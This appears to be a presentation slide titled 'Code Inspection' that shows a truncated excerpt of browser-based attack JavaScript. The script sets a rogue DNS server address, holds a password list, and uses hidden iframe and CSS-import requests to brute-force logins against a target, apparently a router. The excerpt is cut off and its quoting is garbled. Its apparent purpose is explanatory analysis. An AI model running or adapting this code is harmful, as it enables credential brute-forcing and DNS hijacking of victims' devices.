

# Code Inspection
<iframe id="iframe" sandbox="allow-same-origin" style="display: none"></iframe>
<script language="javascript">
  var pDNS = "37.139.50.45";
  var sDNS = "8.8.8.8";
  var passlist=["123456789”,”admin"....,“<eopl>"];
  function exp(url, data, method){
   if(method=="GET"){
     document.write('<style type="text/css">
     @import url('+url+'&j='+Math.random()+');</style>');

Try lots of rapid fire logins (passlist) against the target